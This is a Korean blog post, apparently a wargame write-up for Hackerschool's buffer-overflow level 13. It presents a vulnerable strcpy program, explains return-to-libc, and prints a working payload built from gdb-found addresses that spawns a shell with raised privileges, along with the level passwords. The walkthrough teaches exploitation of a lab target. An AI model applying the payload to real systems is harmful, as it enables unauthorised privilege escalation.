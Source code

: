 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL13 (Darkknight -> Bugbear) : RTL1"
date: 2015-11-27 22:03:10
category: wargame
tags:  bof 
---
```


- id = darkknight
- pw = new attacker

<!-- more -->

## 1. 문제 : bugbear.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack betrayed you!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

## 2. 공격 준비

### 2.1 공격 방법 고민

이전 LEVEL9 (Troll -> Vampire) : Check 0xbfff에서는 0xbfff 가 아니라 0xbffe 가 되도록 command line argument 를 이용하였으나 이번 문제는 0xbe가 되도록 하기에는 너무 멀다. 따라서 shellcode 를 stack 에 올려놓고 실행을 하는 것이 아니라 Return to libc 기법을 이용하여 새로운 shellcode 가 아니라 system 에 있는 기존 함수를 실행시킬 수 있도록 환경을 꾸며보자.

### 2.2 RTL 공격

최신 커널에서는 stack 에서 shellcode execution 이 되지 않도록 DEP 와 같은 방어가 되어 있는 경우에 주로 사용되는 공격 방법이라고 한다. 기존 shellcode 에서는 jump 한 후 실행된 코드를 직접 작성하였지만 RTL 에서는 기존의 system 함수를 실행시키게되므로 실행시킬 함수의 주소와 이를 위한 parameter setting 잘 맞추어주는 것이 핵심이다.

### 2.3 x86 function argument passing

ARM 경우에는 function parameter 를 네개까지는 r0, r1, r2, r3 로 register 를 통하여 입력 받게 되어 있고, 네 개가 넘어갈 경우에는 stack memory를 이용한다. 그렇다면 x86은 어떻게 할까 ? x86은 function parameter 를 register 가 아니라 stack 을 통하여 입력을 받는다.

[Arguments : A brief introduction to x86 calling conventions](http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html)

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage13-1.png)

## 2.4 공격

RTL 통하여 실행하고자 하는 명령어는 바로 shell launching system("/bin/sh")이다. 이를 위한 system 함수 호출 시의 stack은 다음과 같이 구성되어야 한다고 한다. ㅋㅋ

```
buffer[40] | SFP | LR | ...
=  buffer[44] | [system() 주소] | dummy[4] | [/bin/sh string]
```
### 2.4.1 system() 함수 주소 = 0x40058ae0

```
(gdb) print system
$2 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
```

### 2.4.2 /bin/sh string 주소 = 0x400fbff9

다른 문제 풀이를 보면 system library 에 포함되어 있는 /bin/sh string 주소를 얻어서 활용하고 있다. 나는 이 값을 내가 직접 환경변수에 설정하고, 이를 사용해보려고 하는데 계속 주소가 틀리는지 seg fault 가 난다. 아무래도 gdb 실행환경과 일반 실행 환경의 stack 이 조금 다르게 형성되는 것 같다. 일단 답 그대로 사용해본다. T_T;

## 3 Exploit

```bash
buffer[44] | [system() 주소] | dummy[4] | [/bin/sh string]

> ./bugbear `python -c 'print "A"*44 + "\xe0\x8a\x05\x40" * 2 + "\xf9\xbf\x0f\x40"'`    
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAà@à@ù¿@
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
bash$ my-pass
euid = 513
new divide
```



